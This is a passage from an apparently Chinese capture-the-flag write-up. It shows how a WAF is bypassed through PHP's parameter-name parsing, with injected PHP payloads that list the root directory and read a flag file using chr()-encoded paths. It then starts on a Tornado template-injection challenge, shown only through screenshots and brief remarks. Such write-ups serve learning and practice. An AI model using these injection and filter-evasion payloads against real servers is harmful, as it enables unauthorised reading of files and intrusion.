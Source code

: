     ?num=1;var_dump(scandir(chr(47)))

结果发现执行不了：
[![img](20210817021005.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_4c198138f519cedc9caf30856e5be72a.jpg)
应该是waf给杀了
但我们并不知道waf的逻辑，只能猜测是过滤的get方法传入的num的值。
此处有**php的字符串解析漏洞**
我们传入：

    ? num=1

waf会理解为一个空格加一个num，即名为 num的变量，但php会先去除空格，因此php可以正确理解get方法传入的参数

    ? num=1;var_dump(scandir(chr(47)))

[![img](20210818151023.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_be4544fbba401a23910fd09f1fb7728c.jpg)
然后使用chr函数即可得到flag:

    ? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))

[![img](20210817021035.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_515d08bad33c512f00b80c7baef3840c.jpg)

## [护网杯 2018]easy_tornado

> 考点：
> 
> easy_tornado模板注入

打开环境，提示了三个文件：

![image-20210818150904282](20210818150939.png)

无内鬼，看看flag:

![image-20210818151227030](20210818151833.png)

看看，好像上当了：

![image-20210818152201134](20210818152203.png)

看看前面的welcome:

![image-20210818152625608](20210818152628.png)

听别的师傅说看到render就想到模板注入，我，我···

然后康康hint:

![image-20210818153127626](20210818153129.png)

回头看其他访问的文件都是这个样式的：

![image-20210818154648421](20210818154649.png)
